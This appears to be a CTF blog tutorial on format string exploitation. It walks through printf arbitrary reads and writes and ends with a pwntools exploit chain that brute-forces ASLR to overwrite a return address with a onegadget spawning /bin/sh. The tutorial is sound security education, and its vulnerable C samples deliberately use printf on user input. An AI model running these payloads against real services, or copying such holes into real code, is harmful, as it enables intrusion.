# A Full Guide to Format String Exploitation

> **Source:** Originally published at https://corgi.rip/blog/format-string-exploitation
> **Author:** Original author (personal blog / CTF team archive)
> **Retrieved:** 2026-07-13
> **Word count:** 3464
> **Images:** 30 embedded locally

---


**


# A Full Guide to Format String Exploitation


                Ctf

                Pwn


        Ctf

        Pwn


In this blog post, I’ll try to explain why the following line of C code is vulnerable, and how to exploit that vulnerability up to RCE:

```
printf(input) // where 'input' is some data you can control.

```


# Part 1 - Explaining `printf()`


Before we dive into exploitation, we should first understand what this function does and what it’s meant for. So let’s do that!


`printf()` is basically a spicy print function, letting you print variables right inside your print statement with ‘*format specifiers’. Here’s an example of `printf()` being correctly used:

```
int main()
{
    int p = 3;
    printf("Hello World %d",p);
    return 0;
}
// prints the following:
// Hello World 3

```


The `%d` inside the print statement is a ‘*format specifier’. This symbol tells `printf()` to take the first argument passed to the function and print it as a decimal number, specified by the `d`. There are tons more format specifiers for printing all different kinds of variables, here’s some common ones:



Here’s an extended program using some of these if you don’t get it yet:

```
#include <stdio.h>

int main()
{
	int p = 3;
    char hi[] = "hello";
    void *r = puts; // as in, r is now the address of puts()
    printf("Hello World %d, %s, %p", p, hi, r); // you can give printf() as many arguments as you'd like!
    return 0;
}
// prints the following:
// Hello World 3, hello, 0x7f73bc5a5ed0

```


Hopefully you should now understand `printf()`’s purpose! Now we can move onto exploitation.


# Part 2 - Arbitrary Read with `printf()`


Let’s look at some strange `printf()` functionality:

```
#include <stdio.h>

int main()
{
    int p = 3;
    printf("Hello World %p, %p",p);
    return 0;
}
// prints the following:
// Hello World 0x3, 0x7ffdc1547268

```


Here, we ask for two variables to be added to our `printf()` by adding two `%p`’s, but we only pass it one. In the output, we get `0x3` like expected, but we also get a seemingly completely random pointer aswell. What’s going on?


Basically, the program’s compiled code has no idea how many additional arguments are actually being passed to `printf()`. It sees two format specifiers being given, `%p` and `%p`, and then resultingly assumes that two additional arguments were passed to the function. Following the x86_64 calling convention, it’ll then print out whatever’s in the `rsi` and `rdx` register (not `rdi`, as that’s the first argument) using the given format specifier. We can confirm this with some gdb-ing:


So that’s cool, we see data we’re not supposed to see inside the registers. Can read more? You bet! Again reading the x86_64 calling convention, arguments past the 6th are to be placed on the stack. That means if we provide 6 or more format specifiers to `printf()` without supplying a variable to read for the last few…

```
int main()
{
    int p = 3;
    printf("Hello World %p, %p, %p, %p, %p, %p, %p,",p); // 7 format specifiers.
    return 0;
}

```



We can read data that’s on the stack!


This looks bad and all, but how exactly is this exploitable? Nobody’s just going to spam format specifiers inside their own `printf()` call like that.


When we have the ability to put user input directly into `printf()`, we can spam format specifiers ourselves as input and resultingly leak data off the stack. Like so:

```
int main()
{
	char buf[64];
    fgets(buf,64,stdin);
    printf(buf);
    return 0;
}

```



With the ability to read data off the stack, we can easily bypass ASLR/PIE or read other data we’re not supposed to.


Two more things before we continue:


- The calling convention for x86_x32 differs from x64. All the arguments are placed on the stack instead of being placed in registers.

- If you want to read a specific argument, you can use a “*positional formatter”. This is a modifier to a regular formatter, and changes the format from `%f` (where `f` is however you want the format) to `%N$f` (where `N` is the argument number you’d like to read). For instance:


```
#include <stdio.h>

int main()
{
    printf("%p, %p, %p, %p, %p. If we want just the fifth, we can use a positional formatter: %5$p.");
    return 0;
}
// prints the following:
/*
0x7ffd7525f798, 0x7ffd7525f7a8, 0x557d29475dc0, 0x7f71a6922f10, 0x7f71a6944040. If we want just the fifth, we can use a positional formatter: 0x7f71a6944040.
*/

```


## Exercise 1


Let’s try using this exploit on the PicoCTF 2022 binary exploitation challenge `flag leak`. The code is as follows:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```


When the CTF was active, you would connect to a remote server running the compiled version of this code, with your goal being to read the contents of the `flag.txt` file.


Looking at the code, we have a pretty obvious format string vulnerability going on in `vuln()`:

```
char flag[BUFSIZE];
char story[128];

readflag(flag, FLAGSIZE); // reads 'flag.txt' into the 'flag' variable

printf("Tell me a story and then I'll tell you one >> ");
scanf("%127s", story); // takes 127 characters of user input and stores it in 'story'
printf("Here's a story - \n");
printf(story); // printf() directly on user input!!!!!!!!!!!!
printf("\n");

```


The flag’s being placed on the stack with `readflag(flag, FLAGSIZE);`, and we just learned we can read data off the stack with `printf()` bug!
That means we can print the flag with trial and error, sending `%1$s`, `%2$s`, `%3$s` and so on until the flag is printed. It works with `%06$s`:





To clear things up, this is because this is a 32-bit binary (meaning arguments are immediately placed on the stack) and there’s a pointer to the flag 6 ‘addresses’ from the top of the stack. We can see this by breaking on the `printf()` call then using the pwndbg/gef tool `telescope` to get a detailed view of the stack:

If this were a 64-bit binary, our payload would instead have to be `%12$s` because the first 6 arguments are placed in registers instead of directly on the stack.


# Part 3 - Arbitrary Write with `printf()`


An arbitrary read is cool, but you know what’s even cooler? An arbitrary write! How? Well, I intentionally left out a few format specifiers when explaining printf. Here they are now:


### Extra Format Specifiers


There exists ‘size modifiers’ which can change the size of what’s being printed. They are:


- Adding `ll` before the format prints it as 64-bit

- Adding `l` prints it as 32-bit

- Adding `h` prints 16-bit

- Lastly, `hh` prints 8-bit

- There’s a couple more but they’re unnecessary. You can view them all here though if you’d like.


We also have two format specifiers I didn’t mention:


- `%Nc` will print out `N` spaces (so, `%100c` would print out 100 spaces)
That one’s not bad by itself. The other is much more:

- `%n`: *write the number of characters printed so far to the given argument, which should be a pointer.


That might not make sense. Here’s a (stupid) example of its usage:

```
#include <stdio.h>

int main()
{
    int i = 1000;
    int l = 0;
    printf("%d%n\n",i,&l);
    printf("Variable 'i', printed above, is %d digits long",l);

    return 0;
}

// prints the following:

/*
1000
Variable 'i', printed above, is 4 digits long
*/

```


Due to the `%d`, the first `printf()` call printed `1000` which is 4 characters long. Then, because of the `%n` specifier right after, the number `4` was written to `l` because 4 characters had just been printed. (Side note: size modifiers work with `%n`. If we wanted to write to just the lower 8 bits of a given pointer, we would use `%hhn` instead.)


So yeah, `printf` can write to data as long as you have a pointer to it. (While doing some research for this post, I found that someone managed to abuse this to make an entire tic-tac-toe game inside a `printf()` call. Pretty cool.)


### The Arbitrary Write


Continuing on, we can write to any (writeable) address we want because eventually our own input shows on the stack:

That means we can provide an address we want to write to as part of our input, use `%100c` (or whatever fitting number for our scenario) to print the number of bytes we want to write, then after use `%7$n` (or whatever number has the memory address we wrote) to write that many bytes to the address we wrote.
That might’ve been a little confusing, so let’s use what we learned in another exercise:


## Exercise 2


Here we’ll solve a challenge I found on this github website. The binary can be downloaded on the linked page, and the code is as follows:

```
#include <stdio.h>

int auth = 0;

int main() {
    char password[100];

    puts("Password: ");
    fgets(password, sizeof password, stdin);

    printf(password);
    printf("Auth is %i\n", auth);

    if(auth == 10) {
        puts("Authenticated!");
    }
}

```


Our goal is to change the `auth` variable to 10. Since `auth` is a global variable and PIE is disabled, we know its exact address in memory:



Running the binary and spamming `%p` a bunch, we see that we start printing our own input past the 7th format specifier:



So, if we send `[address of auth as raw bytes]%7$p` we should see the address of `auth` pop up:

```
from pwn import *

auth = 0x804c028
p = process("./auth")

p.sendlineafter("Password:",p32(auth)+b"%7$p")
p.interactive()

```





To modify `auth` we don’t have to change our script much. We use `%6c` to print 6 spaces and get the total number of characters printed up to 10 (because it prints the 4-byte address) and then change `%7$p` to `%7$n` to write to the address instead of print it:

```
from pwn import *

auth = 0x804c028
p = process("./auth")

p.sendlineafter("Password:",p32(auth)+b"%6c"+b"%7$n")
p.interactive()

```





# Part 4 - Code Execution with `printf()`


In this part (which is really just one big exercise), we’ll exploit the following code to get code execution/RCE:

```
#include <stdio.h>

int setup()
{
    // are these even needed? i genuinely dunno what these do lol
    setbuf(stdout, 0LL);
    setbuf(stdin, 0LL);
    setbuf(stderr, 0LL);
    return 0;
}

int print_input()
{
    char buf[234];
    puts("Gimme some input!");
    fgets(buf, 234, stdin);
    printf(buf);
    return 0;
}

int main()
{
    setup();
    print_input();
    return 0;
}

```


To make things even worse for us, all protections have been enabled:





If you want to mess with the program yourself, a copy can be downloaded here. Note that you’re given a libc library you’re supposed to run this program with; use pwninit to patch the binary to do so.


Exploitation sounds impossible from here. Due to the `printf()` call we get an arbitrary write, but where would we even write to? With ASLR and PIE enabled, we’re unsure about where anything is placed in memory. We could figure out where to write to by reading memory addresses off the stack, but then we use up our one `printf()` and we can’t do anything anymore.


Well, we can still write to any addresses we find already existing on the stack. If there was one pointing to the return address, we could use that to overwrite it! Let’s set a breakpoint on the `printf()` call and again use `telescope` to look at the stack:

Our return address is the line at `21` or `0x7fffffffd9a8`. Doesn’t look like anything’s pointing to it, sadly. BUT there is something very interesting on line `1d`. Let’s look at this line:

```
0x7fffffffd988 —▸ 0x7fffffffdac8 —▸ 0x7fffffffdd29 ◂— '/home/corgo/pwn/personal/reader2/reader2'

```


This is a stack address pointing to another stack address. There’s an interesting abuse method we have here:


- With `%n`, overwrite the last 2 bytes of data at `0x7fffffffdac8` to change it to the location of the return address (that is, we change `dd29` to `d9a8`). We’ve just made a stack address point to a return address!

- Now that we have a stack address pointing to the return address, use it to overwrite the return address. We’ll overwrite the return address to the start of `print_input()` again, letting us `printf()` new input. If we make sure to also print some libc and stack addresses in our input, we’ll be able to overwrite the return address with a onegadget this time!


My exploit for this will be as follows:
`%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55687c%hn%250c%75$hhn%75$p%41$p`


This is stupidly complicated. Let’s go over it! The first part of our exploit is `%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55687c%hn`, where we spam format specifiers up to the location of our pointer-pointer chain then overwrite it with the return address.


You might ask ‘why spam the format specifier when you can just use the positional formatter like `%34$n`’? Great question! We actually can’t use that yet. When using those, `printf` seems to ‘freeze’ the argument in place and only changes it at the very end, meaning when we try to use that pointer to overwrite the return address it hasn’t changed yet and we’ll be overwriting `/home/corgo/reader2` instead of the return address which is of course useless to us.


The parts after should hopefully make sense. We print out 33 characters as a result of the `%c` spam, and then print out 55,687 more with `%55687c` to bring the total number of characters printed out to 55,720 or 0xD9A8. With the correct amount of characters printed, we then use `%hn` to write that number to the lower 16 bits of the data at `0x7fffffffdac8`, which means it’ll now point to the return address.


The second part is `%250c%75$hhn`. We print out 250 more characters to get a total of 55,970 or 0xDAA2 characters printed. We then write that value to the lower 8 bits (meaning we’ll write just 0xA2) of the return address, using the stack pointer to the return address existing due to our previous shenanigans. This moves the return address to right here:

You might ask, ‘Why *there specifically? Why not the beginning of `main()` or the beginning of `print_input()` or something similar?’. If you did, great question! This is due to stack alignment issues. If we instead try to change the return address to the beginning of `main()` for example, we’ll eventually get a segfault on a `movaps` (which is almost always the culprit of stack-alignment-related crashes).


Lastly, `%75$p%41$p`. This isn’t anything complicated, we’re just printing the location of our return address and then an address in libc. This gives us enough info to directly write a onegadget to the return address!
Let’s try sending it:




So this is cool and all, but does it work with ASLR on (since it’s disabled in GDB)? Well, let’s try:


Nope. This is because ASLR randomizes stack addresses up to the last 4 bits, and with our first `%hn` overwrite we’re writing 16. That means we have to guess 12, and so our exploit has a 1/4096 chance to work. That’s not great, but should only take about an hour of bruteforcing on a remote system (given that a segfault doesn’t permanently take down the application).  To confirm it works with ASLR on, I wrote a script to spam the payload a bunch of times and check if we get a response back:

```
# spam with `for i in $(seq 1 10000); do python3 brute.py; done`

from pwn import *
import time

p = process("./reader2")

p.sendlineafter("input!\n","%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55687c%hn%250c%75$hhn%75$p%41$p")
data = p.recvline()[-29:].decode().split("0x")[1:]
data2 = p.recvline().decode()
print(data)
if "stack smashing" not in data2: # sometimes we'll overwrite the stack canary which causes this to instead be printed
    print("exploit works with ASLR on!")
    print(data2)
    time.sleep(5000)

```


After a bunch of spamming:





From here, we just need to complete our exploit script.


**side note: for script development outside of GDB with ASLR off, you’ll have to edit the payload as the GDB stack is slightly off from what your local stack will be. to figure out the right addresses to write to, run the program outside of gdb then run `gdb ./reader2 -p [pid]` which will attach gdb to the process instead of running it inside gdb. from there you can figure out the right addresses. this doesn’t matter for the remote server of course because you’re just guessing the stack address there


With our leaked return and libc address, we can try writing a onegadget directly to the return address. Let’s run said program on our libc library and see what options we have available to us:



Comparing this to our registers at the end of the `print_input` function none of these immediately work:

We’re pretty close to having the bottom two working, we just need to null out one register. I’ll use the bottom one and fix it by executing `xchg eax, esi ; ret ;` right before. This swaps the `eax` and `esi` register, which would result in `rsi` becoming 0 therefore meeting our onegadget constraints. With that in mind, here’s our final exploit script:

```
from pwn import *
import time

p = process("./reader2")
context.binary = ELF("./reader2")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6")
p.sendlineafter("input!\n","%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%c%55847c%hn%90c%75$hhn%75$p%41$p") # interesting change: i first guessed the return address was at DA08. this messes up the format string payload at the bottom because it tries to print DA0B; \x0B is a bad char that kills your fgets() input. to fix this i guessed it was at DA64 instead.

data = p.recvline()[-29:].decode().split("0x")[1:]
data2 = p.recvline().decode()
if "stack smashing" not in data2:
    print("looks like we got lucky! sending payload..")
    input("Send input to go ahead..")
    reta,libca = int(data[0],16),int(data[1],16)
    libc.address = libca - 0x29D90
    info(hex(libc.address))
    onegadget = libc.address + 0xebcf8 # execve("/bin/sh", rsi, rdx)   onegadget
    xchgadget = libc.address + 0xee04b # xchg eax, esi ; ret ;         ran before the onegadget to meet its constraints

    # pwntools can automatically setup format string arbitrary writes for us! we'll be using that below.

    writes = {reta:xchgadget,reta+8:onegadget} # the arbitrary writes we want. goes in where:what format
    payload = fmtstr_payload(6,writes) # first argument is how many %p's it takes to start seeing your own input, second is the write-what-wheres
    print(payload)
    p.sendline(payload)
    p.interactive() # cross your fingers..


```


And after spamming it enough times…


